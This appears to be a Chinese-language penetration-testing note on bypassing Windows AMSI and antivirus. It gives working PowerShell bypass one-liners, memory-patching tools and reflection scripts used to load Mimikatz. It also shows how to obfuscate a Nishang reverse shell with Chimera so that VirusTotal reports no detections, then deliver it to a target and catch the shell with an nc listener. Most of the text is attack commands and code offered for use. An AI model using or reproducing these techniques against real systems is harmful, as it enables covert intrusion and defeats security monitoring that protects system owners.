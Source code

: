 	Windows 反恶意软件扫描接口 (AMSI)
#### 方法一 混淆
	$a =[Ref].Assembly.GetType('System.Management.Automation.AmsiUt'+'ils')
	$h="4456625220575263174452554847"
	$s =[string](0..13|%{[char][int](53+($h).substring(($_*2),2))})-replace " "
	$b =$a.GetField($s,'NonPublic,Static')
	$b.SetValue($null,$true)
![image](/assets/Pentest_Note/master/img/720.png)

	或使用以下脚本
	https://github.com/RythmStick/AMSITrigger
	PS >  \AmsiTrigger.ps1 -i .\demo.ps1
#### 方法二 内存劫持
	https://rastamouse.me/memory-patching-amsi-bypass/
	https://github.com/rasta-mouse/AmsiScanBufferBypass
	https://github.com/crawl3r/FunWithAMSI
	直接编译完使用即可
	[System.Reflection.Assembly]::LoadFile("C:\\Users\\test\\Desktop\\AmsiFun.dll")
	[Amsi]::Bypass()
![image](/assets/Pentest_Note/master/img/726.png)
![image](/assets/Pentest_Note/master/img/727.png)
![image](/assets/Pentest_Note/master/img/728.png)
#### 方法三 Powershell降级
	$ PowerShell -version 2
#### 方法四 强制报错
	PS > $mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
	PS > [Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
#### 方法五 内存劫持混淆操作码
	https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998#file-my-am-bypass-ps1
	PS > .\my-am-bypass.ps1
	PS > "invoke-mimikatz"
#### 方法六 反射绕过
	https://gist.github.com/shantanu561993/6483e524dc225a188de04465c8512909
	PS > .\am-bp-reflection.ps1
	PS > "invoke-mimikatz"
#### 方法七 Nishang
	https://github.com/samratashok/nishang/blob/master/Bypass/Invoke-AmsiBypass.ps1
	PS > Import-Module .\nishang.ps1
	PS > Invoke-AmsiBypass -Verbose
	PS > "invoke-mimikatz"
#### Powershell脚本混淆绕过amsi和av
	https://github.com/tokyoneon/Chimera
	以下是Invoke-PowerShellTcp.ps1的片段
```shell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)

$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)

```
![image](/assets/Pentest_Note/master/img/813.png)

	经过Chimera处理后
```shell
              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()
       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.
          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}
   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.
           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.
   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.
           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")
            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)
   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.

```
	VirusTotal报告检测到0个
![image](/assets/Pentest_Note/master/img/814.png)

	Kali下安装
	sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
	sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
	sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
	sudo chmod +x chimera.sh; ./chimera.sh --help
	在shells /目录中有几个Nishang脚本和一些通用脚本。所有都已经过测试
	使用脚本之前，请将硬编码的IP地址（192.168.56.101）更改为您的Kali地址。
	/opt/chimera$ sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
	所有脚本的默认端口为4444。如果需要，再次使用sed进行更改。
	/opt/chimera$ sed -i 's/4444/<YOUR-DESIRED-PORT>/g' shells/*.ps1
	f：输入文件。
	-o：输出文件。
	-g：从脚本中省略几个Nishang特定的特征。
	-v：替换变量名称。
	-t：替换数据类型。
	-j：替代函数名称。
	-i：在每一行中插入任意注释。
	-c：用任意数据替换注释。
	-h：将IP地址转换为十六进制格式。
	-s：替换各种字符串。
	-b：在可能的情况下反引号字符串。
	-e：过程完成后，检查混淆文件。
	举例，nc反弹shell
	nc -v -l -p 4444
	把混淆好的脚本传入目标
	PS> powershell.exe -ep bypass C:\path\to\chimera.ps1
	获得shell
	nc -v -l -p 4444

	listening on [any] 4444 ...
	192.168.56.105: inverse host lookup failed: Host name lookup failure
	connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 49725
	Windows PowerShell running as user  on
	Copyright (C) 2015 Microsoft Corporation. All rights reserved.
	
	PS C:\Users\target>
	一些使用说明
	https://github.com/tokyoneon/Chimera/blob/master/USAGE.md
